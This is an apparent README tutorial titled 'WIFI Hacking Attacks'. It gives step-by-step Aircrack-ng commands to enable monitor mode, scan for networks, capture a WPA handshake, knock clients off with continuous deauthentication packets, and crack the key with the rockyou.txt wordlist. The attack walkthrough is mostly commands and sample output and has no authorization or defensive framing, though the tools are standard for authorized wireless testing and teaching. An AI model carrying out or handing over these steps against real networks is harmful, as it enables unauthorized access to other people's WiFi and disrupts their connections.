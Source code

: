 # WIFI Hacking Attacks

## Aircrack-ng Tool

Aircrack-ng is a set of utilities for **analyzing** WiFi networks for **weaknesses**.

### Installation

```bash
sudo apt-get update
sudo apt-get install -y aircrack-ng
```

### Usage

- Display **network interfaces**

```bash
iwconfig
```

- Give **access** to **Wifi interface** for Aircrack-ng.

```bash
sudo airmon-ng start interface-name
```

- Scanning and **capturing** wifi networks.

```bash
sudo airodump-ng interface-name-mon
```

`output example`

```bash
 BSSID    PWR  Beacons    #Data, #/s CH MB   ENC CIPHER AUTH   ESSID

mac@       0       0        0    0   0  0   WPA2 CCMP   PSK  NETWORK-NAME
```

**BSSID** : Mac Adress

**PWR** : Power value near/far

**CH** : Channel number

**ESSID** : Extended Service Set **Identification**

**ENC** : Encryption

- Waiting specific wifi network to **capture handshake**

```bash
sudo airodump-ng -w file -c channel --bssid mac@ interface-name-mon

# file : output file , mac@ : mac-address
```

- **Attacking** specific wifi network to **capture handshake**

```bash
sudo aireplay-ng --deauth 0 -a mac@ wlan0mon
```

### Scanning

- Analysing Handshake

looking for **wpa key** captured.

```bash
wireshark file.cap

# filter EAPOL
```


### Cracking

WPA3 encryption not supported by Aircrack-ng.

```bash
aircrack-ng file.cap -w rockyou.txt
```
